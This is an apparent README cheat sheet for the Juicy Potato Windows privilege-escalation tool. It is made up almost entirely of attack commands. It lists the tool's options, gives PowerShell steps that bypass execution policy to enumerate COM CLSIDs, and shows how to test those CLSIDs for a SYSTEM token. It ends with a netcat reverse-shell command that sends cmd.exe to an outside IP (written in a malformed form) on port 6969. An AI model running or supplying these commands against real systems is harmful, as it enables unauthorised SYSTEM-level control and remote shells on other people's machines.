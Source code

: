 # Juicy Potato (abusing the golden privileges)

## usage

```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

## PoC 
### run first
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\Join-Object.ps1"
```
> does not provide direct output. Make sure there are no errors.

### get list CLSIDs :
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\GetCLSID.ps1"
```
* Verify following files are generated
<br>
> CLSIDs.csv: List of CLSIDs and APIDs in CSV format.<br>
> CLSID.list: List of CLSIDs only.


### checking CLSIDs :
```
.\get.bat
```
> result will saved on kaz.log

### or

### Check working CLSID using -c parameter
```
method 1
.\jus.exe -c "{list-xxx-from-xxx-kaz.log}" -t * -l 1337 -z

method 2
.\jus.exe -c "{list-xxx-from-xxx-kaz.log}" -p "c:\windows\system32\cmd.exe" -a "/c whoami" -l 1337 -t *
```

### Reverse Shell
```
.\jus.exe -l 1337 -c "{working-xxx-xxx-xxx-CLSID}" -p c:\windows\system32\cmd.exe -a "/c C:\Temp\nc.exe -t -e C:\Windows\System32\cmd.exe 123.123.123 6969" -t *
```


## reference

* [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)<br>
* [ohpe](https://github.com/ohpe/juicy-potato/blob/master/README.md)































